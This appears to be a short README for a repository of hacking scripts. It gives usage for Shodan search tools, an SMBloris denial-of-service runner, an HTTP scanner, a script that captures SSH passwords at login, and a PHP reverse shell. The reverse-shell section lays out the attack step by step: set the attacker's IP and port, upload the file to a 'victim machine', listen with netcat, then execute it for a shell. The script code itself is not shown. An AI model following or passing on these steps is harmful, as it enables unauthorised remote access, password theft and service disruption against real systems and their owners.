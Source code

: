 ## Th1s 1s a rep0 ab0ut h3cking scr1pts

# shodan

shodancount.py <search query>

shodansearch.py <search query>

# smbloris

chmod +x run10.sh

sh run10.sh

# httpscan

httpscan.py <ip>

# dump_ssh_password

chmod +x ssh_password.sh

sh password.sh

open a new window to ssh login , you'll see the ssh password

# php-reverse-shell

modify the $ip and $port in php-reverse-shell.php in line 49 and 50

upload php-reverse-shell.php to the victim machine

login to your vps,listen the port

nc -lvp 1234

execute the php on the victim machine,you'll get the reverse shell

php php-reverse-shell.php

## Hope you enjoy ^_^